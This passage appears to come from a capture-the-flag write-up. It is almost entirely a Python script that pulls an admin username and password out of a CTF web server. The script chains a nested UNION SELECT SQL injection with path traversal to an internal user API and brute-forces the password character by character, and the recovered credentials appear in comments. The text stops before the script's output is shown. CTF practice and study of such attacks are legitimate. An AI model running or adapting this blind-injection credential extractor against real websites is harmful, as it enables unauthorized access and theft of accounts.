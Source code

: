 I used the following script to extract the username and password:

```python
import requests
from lxml import html

alphabet = "abcdefghijklmnopqrstuvwxyz0123456789~`!%@#$^*()-_=+[{]}\|;:,<.>/?"

host = "https://hackyholidays.h1ctf.com"
url = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=?hash=-4685%%27%%20UNION%%20SELECT%%20%%22%%27%%20UNION%%20SELECT%%20null,null,%%27../api/user?username=grinchadmin%%26password=%s%%25%%27--+%%22,null,null--+%%22"

#username = grinchadmin
#password = s4nt4sucks
out = ''
found = 0
while True:
	for c in alphabet:
		# _ (underscore) is another wildcard character in MySQL. I escaped a few other tricky characters just in case. 
		if c == '_':
			c = '\_'
		if c == '%':
			c = '\%'
		if c == '\\':
			c = '\\\\'

		# add found letters into the payload 
		tester = url % (out+c)
		# send the payload
		r = requests.get(tester)
		# parse html
		tree = html.fromstring(r.text)
		# get /picture?data=base64 URL
		url2 = tree.xpath('//img')[1].items()[1][1]
		# send second request
		r2 = requests.get(host+url2)

		# if response contains "Invalid", we have found a letter
		if "Invalid" in r2.text:
			out += c
			found = 1
			break
	print out
	if not found:
		print out
		break
	else:
		found = 0
```
Here's the output from that script:
